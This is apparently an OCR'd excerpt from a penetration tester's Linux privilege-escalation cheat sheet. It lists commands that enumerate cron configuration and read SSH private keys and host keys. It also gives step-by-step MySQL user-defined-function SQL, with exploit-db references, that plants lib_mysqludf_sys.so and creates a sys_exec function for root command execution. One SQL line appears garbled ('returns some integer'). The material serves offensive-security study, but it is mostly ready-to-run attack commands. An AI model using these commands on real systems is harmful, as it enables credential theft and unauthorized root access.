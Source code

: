     crontab -l
    ls -alh /var/spool/cron
    ls -al /etc/ | grep cron
    ls -al /etc/cron*
    cat /etc/cron*
    cat /etc/at.allow
    cat /etc/at.deny
    cat /etc/cron.allow
    cat /etc/cron.deny
    cat /etc/crontab
    cat /etc/anacrontab
    cat /var/spool/cron/crontabs/root

SSH Keys

	Check all home directories
	cat ~/.ssh/authorized_keys
    cat ~/.ssh/identity.pub
    cat ~/.ssh/identity
    cat ~/.ssh/id_rsa.pub
    cat ~/.ssh/id_rsa
    cat ~/.ssh/id_dsa.pub
    cat ~/.ssh/id_dsa
    cat /etc/ssh/ssh_config
    cat /etc/ssh/sshd_config
    cat /etc/ssh/ssh_host_dsa_key.pub
    cat /etc/ssh/ssh_host_dsa_key
    cat /etc/ssh/ssh_host_rsa_key.pub
    cat /etc/ssh/ssh_host_rsa_key
    cat /etc/ssh/ssh_host_key.pub
    cat /etc/ssh/ssh_host_key
	
Bad PATH configuration

	check PATH variable for a . 

## MySQL
	
	If root access on MySQL then create a user defined function to escalate to root shell
	https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/
	https://www.exploit-db.com/exploits/1518/
	
	Steps:
	copy 1518.so over or lib_mysqludf_sys.so over to target
	(located on kali under sqlmap directory)
	/usr/share/sqlmap/udf/mysql/linux/32/lib_mysqludf_sys.so_
	/usr/share/sqlmap/udf/mysql/linux/64/lib_mysqludf_sys.so_
	
	mysql -u root
	use mysql;
	create table hack(line blob);
	insert into hack values(load_file('/tmp/lib_mysqludf_sys.so'));
	select * from hack into dumpfile '/usr/lib/lib_mysqludf_sys.so';
	create function sys_exec returns some integer soname'lib_mysqludf_sys.so';
	